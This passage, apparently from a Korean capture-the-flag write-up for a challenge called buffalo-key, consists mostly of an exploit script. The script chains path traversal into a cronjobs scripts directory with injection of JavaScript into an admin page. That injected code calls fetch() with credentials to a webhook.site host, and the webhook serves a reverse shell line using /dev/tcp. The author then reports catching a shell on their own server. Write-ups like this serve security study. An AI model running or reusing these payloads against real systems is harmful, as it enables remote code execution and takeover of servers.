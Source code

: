 ```python
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36',
    'Cookie': f'PHPSESSID={cookie}'
})
a = res.text.find('</code>')
p = res.text[a-5:a]
pow = getPow(p)
file = sys.argv[1]
rce_payload = base64.b64encode(
    f'http://localhost/api/slot_reg.php?name=asdf&slotid=asdf/../../../../../../../../cronjobs/scripts/&reel=asdf&reel_blur=https://webhook.site/da959eff-f338-4161-b161-8139539f7820'.encode()).decode().replace('=','')
res = client.post(url=url, data={
    'url': 'http://localhost/admin/reg_slot.php?headers[]=`);});fetch(atob(`'+str(rce_payload)+'`),JSON.parse(atob(`eyJoZWFkZXJzIjp7IkNvbnRlbnQtVHlwZSI6ImFwcGxpY2F0aW9uL2pzb24ifSwibWV0aG9kIjoicG9zdCIsIm1vZGUiOiJjb3JzIiwiY3JlZGVudGlhbHMiOiJpbmNsdWRlIn0`)));setTimeout(function+a(){(`{',
    'pow': pow
}, headers={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36',
    'Cookie': f'PHPSESSID={cookie}'
})
```

{: file="exploit.py" }

webhook 에는 아래와 같은 내용물을 가지도록 했습니다.

```shell
sh -i >& /dev/tcp/아이피주소/포트번호 0>&1
```

그런 다음 제 서버에서 포트 리스닝 시켜두고 페이로드를 실행했습니다.

![reverse_shell](/assets/img/buffalo-key-writeup-1.png){: .shadow }
_reverse shell_
